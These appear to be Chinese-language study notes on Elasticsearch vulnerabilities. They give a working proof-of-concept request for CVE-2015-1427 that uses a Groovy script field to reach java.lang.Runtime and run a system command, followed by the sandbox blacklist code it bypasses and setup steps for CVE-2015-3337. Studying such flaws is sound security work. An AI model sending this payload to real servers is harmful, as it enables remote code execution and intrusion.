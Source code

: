 
## CVE-2015-1427
Ref： https://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/

POC
```
POST /_search?pretty

{"size":1, "script_fields": {"xxx":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"whoami\").getText()"}}}
```
这个漏洞的重点在于绕过沙箱。1.3之前的版本可以随意写入Java语句。后来在执行表达式查询时，增加了`GroovySandboxExpressionChecker.isAuthorized()`。
```
public boolean isAuthorized(Expression expression) {
    if (expression instanceof MethodCallExpression) {
        MethodCallExpression mce = (MethodCallExpression) expression;
        String methodName = mce.getMethodAsString(); // poc中得到的methodName为getText
        if (methodBlacklist.contains(methodName)) { // 黑名单包括"getClass"、"wait"、"notify"、"notifyAll"、"finalize"方法
            return false;
        } else if (methodName == null && mce.getMethod() instanceof GStringExpression) {
            // We do not allow GStrings for method invocation, they are a security risk
            return false;
        }
    } else if (expression instanceof ConstructorCallExpression) {
        ConstructorCallExpression cce = (ConstructorCallExpression) expression;
        ClassNode type = cce.getType();
        if (!packageWhitelist.contains(type.getPackageName())) {
            return false;
        }
        if (!classWhitelist.contains(type.getName())) {
            return false;
        }
    }
    return true;
}
```
并且能调用的包设定了白名单
```
java.lang.Math.class.getName(),
java.lang.Integer.class.getName(), "[I", "[[I", "[[[I",
...
java.util.Date.class.getName(),
java.util.List.class.getName(),
java.util.Map.class.getName(),
java.util.Set.class.getName(),
java.lang.Object.class.getName(),
```

## CVE-2015-3337
漏洞需要安装"Site plugins"，较为流行的"Site plugins"包括Head、Kopf等。安装Head插件，在bin文件夹下运行如下命令（限于5.0版本之前）
```
plugin -install mobz/elasticsearch-head
```
访问`http://localhost:9200/_plugin/head/`，查看是否安装成功（无需重启）
